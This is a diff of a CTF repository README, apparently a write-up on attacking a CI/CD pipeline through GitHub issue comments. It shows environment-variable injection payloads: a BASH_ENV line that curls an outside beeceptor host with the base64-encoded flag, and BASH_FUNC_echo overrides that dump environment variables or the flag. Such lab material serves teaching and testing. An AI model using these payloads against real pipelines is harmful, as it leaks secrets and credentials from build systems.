

Before and after one commit to Nebouh/tdf-ctf-cicd, a Markdown page: README.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -153,7 +153,8 @@ BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base6
 Body Issue Comment:
 ``` bash
 Let me do something with this env :)
-BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
+# BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
+BASH_FUNC_echo%%=() { builtin echo "$FLAG $@" | base64 ;}
 ```
  <p align="right">(<a href="#readme-top">back to top</a>)</p>
 
````
